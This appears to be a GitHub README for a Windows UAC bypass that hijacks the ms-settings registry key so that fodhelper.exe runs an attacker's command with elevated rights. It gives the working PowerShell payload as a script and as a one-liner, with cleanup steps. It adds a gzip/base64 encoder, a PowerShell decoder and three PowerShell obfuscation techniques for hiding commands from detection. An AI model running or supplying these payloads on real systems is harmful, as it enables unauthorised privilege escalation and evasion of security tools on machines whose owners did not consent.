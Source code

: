 # Theory

> Unlock hidden doors with trust as your key

### Vulnerability

fodhelper.exe itself does not execute registry keys per se; However, it reads certain registry keys to determine its behavior. By misusing the "ms-settings" key, we can potentially get fodhelper to run values within a key

fodhelper.exe is designed to run with elevated privileges without prompting the user with a uac

### Raw Payload

```Powershell
$payload="powershell.exe -w h -NoP -NonI -Exec Bypass -enc $command"
reg add "HKCU\Software\Classes\.hacker\Shell\Open\command" /d $payload /f
reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".hacker" /f

fodhelper.exe

Start-Sleep -s 3
reg delete "HKCU\Software\Classes\.hacker\" /f
reg delete "HKCU\Software\Classes\ms-settings\" /f
```
or
```Powershell
$payload="powershell.exe -w h -NoP -NonI -Exec Bypass -enc $command";reg add "HKCU\Software\Classes\.hacker\Shell\Open\command" /d $payload /f;reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".hacker" /f;fodhelper.exe;Start-Sleep -s 3;reg delete "HKCU\Software\Classes\.hacker\" /f;reg delete "HKCU\Software\Classes\ms-settings\" /f;
```

### Encryption and Encode

<b>I know it's corny, but compression is a form of encryption</b>

We want to compress and encode this command to where powershell can decompress

Compression often generates unwanted characters, so we will also encode after compressing

```python
# Please forgive me, I hate leaving comments
# The code should speak for itself

import gzip

def compress_and_base64(input):
    # Convert string to bytes
    bytes = input.encode('utf-8')

    # Initialize buffer
    buffer = io.BytesIO()

    # Compress stream with gzip
    with gzip.GzipFile(fileobj=buffer, mode='wb') as file:
        file.write(bytes)

    # Save stream to variable
    compressed = buffer.getvalue()

    # Encode, so invisble characters are saved
    encoded = base64.b64encode(compressed)

    # Convert bytes to string
    return encoded.decode('utf-8')
```

<b>Extraction Method</b>

```powershell
# Decode and Decompress
# Output will be a string

(New-Object IO.Compression.GZipStream(
    # Decode
    [System.IO.MemoryStream][Convert]::FromBase64String($COMPRESSED_DATA_HERE),

    # Decompress stream with gzip
    [System.IO.Compression.CompressionMode]::Decompress
) |

# % is shorthand for "foreach-object"
%{

    # Read from gzip stream, convert to ascii
    New-Object System.IO.StreamReader($_, [System.Text.Encoding]::ASCII)

# Convert all to single string
}).ReadToEnd() 
```

or

```powershell
(New-Object IO.Compression.GZipStream([System.IO.MemoryStream][Convert]::FromBase64String($COMPRESSED_DATA_HERE), [System.IO.Compression.CompressionMode]::Decompress) |%{New-Object System.IO.StreamReader($_, [System.Text.Encoding]::ASCII)}).ReadToEnd()
```

### Powershell Obfuscation Methods
<p>Numeric to string conversion obfuscation</p>
<p>Character code obfuscation</p>
<p>String slicing and indexing obfuscation</p>

```powershell
# NUMERIC CONVERSION -> Write-Host 420
[string]::join('',((87,114,105,116,101,45,72,111,115,116,32,52,50,48)|%{[char]$_}))

# CHARACTER CODE -> Write-Host 420
[char](87)+[char](114)+[char](105)+[char](116)+[char](101)+[char](45)+[char](72)+[char](111)+[char](115)+[char](116)+[char](32)+[char](52)+[char](50)+[char](48)

# STRING SLICING -> Write-Host 420
"zttxirGVRskXrsEFIcH0X2cPLmO WnoruBWUks-f2neGJNIo46"[34,12,4,2,42,38,18,30,13,1,27,48,40,19] -join ""
```
